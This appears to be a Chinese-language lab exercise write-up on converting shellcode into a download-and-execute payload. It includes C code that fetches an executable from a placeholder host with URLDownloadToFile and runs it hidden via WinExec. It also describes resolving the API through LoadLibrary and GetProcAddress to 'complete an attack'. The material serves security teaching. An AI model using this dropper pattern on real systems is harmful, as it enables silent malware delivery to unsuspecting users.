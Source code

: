 ![image-20201022150421075](images/image-20201022150421075.png)

### （5）(选做，难度较大)修改shellcode功能为下载执行器，即下下载一个可执行文件，然后再运行（提示，使用原生API UrlDownloadToFile

>补充知识点：
>
>**shellcode最重要的方式是获得函数地址，有两种方式；用GetProcAddress函数获取函数地址，或者用或者CreateProcess(或WinExec())遍历导出表。**
>
>+ 生成main.exe时的源文件最好用c而不是cpp的原因：
>  + c++底层是对象的思想，c的底层是地址的思想。所以：当漏洞利用到强制类型转换，最好使用c。

+ 法一：

  ```c++
  #include<Windows.h>
  #include<Urlmon.h>
  int main()
  {
  	URLDownloadToFile(NULL, "http://xxx/ov.exe",  "a.exe", 0, NULL);//自己搭建一个网站，可以使用python -m http.servce 来搭建一个本地服务，然后添加本地的ip地址即可。
  	WinExec("a.exe",SW_HIDE);//或者CreateProcess()
  }
  ```

+ 法二：

  + kernel.dll由于其包含进行运行的基本函数，一般情况会被加载到内存中。其中包含LoadLibrary和GetProcAddress两个API，其中LoadLibrary可以加载我们需要的dll：urlmon.dll，加载完成后，urlmon.dll中的函数会在内存中，使用GetProcAddress即可找到API:URLDownloadToFileA在内存中的地址。之后，便可以利用函数指针的方式调用URLDownloadToFileA函数，去指定的网站上下载东西，最后用WinExec即可完成一次攻击。
